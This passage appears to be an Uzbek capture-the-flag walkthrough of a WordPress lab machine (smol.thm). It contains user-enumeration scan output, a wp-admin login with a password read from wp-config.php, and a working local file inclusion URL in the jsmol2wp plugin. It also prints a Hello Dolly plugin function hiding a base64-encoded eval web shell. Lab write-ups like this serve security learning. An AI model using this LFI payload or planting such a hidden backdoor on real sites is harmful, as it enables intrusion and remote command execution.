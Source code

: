 ```
 |  - http://www.smol.thm/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[+] gege
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] diego
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] xavi
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

LFI orqali wp-config.php'dagi login parollardan foydalanib saytga kirishga harakat qilamiz.

1. http://www.smol.thm/wp-admin/

2. Login: wpuser

   Password: kbLSF2Vop#lw3rjDZ629*Z%G

Bingo!

Chop etilmagan post topdim.

```
http://www.smol.thm/wp-admin/post.php?post=58&action=edit
```

Aytilishi bo'yicha "hello" doir **source code** topishimiz kerak. Ho'p. LFIga qaytamiz.

Topildi:

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../hello.php
```

Natja qismi:

```
// This just echoes the chosen line, we'll position it later.
function hello_dolly() {
	eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
	
	$chosen = hello_dolly_get_lyric();
	$lang   = '';
	if ( 'en_' !== substr( get_user_locale(), 0, 3 ) ) {
		$lang = ' lang="en"';
	}

	printf(
		'<p id="dolly"><span class="screen-reader-text">%s </span><span dir="ltr"%s>%s</span></p>',
		__( 'Quote from Hello Dolly song, by Jerry Herman:' ),
		$lang,
		$chosen
	);
}
```

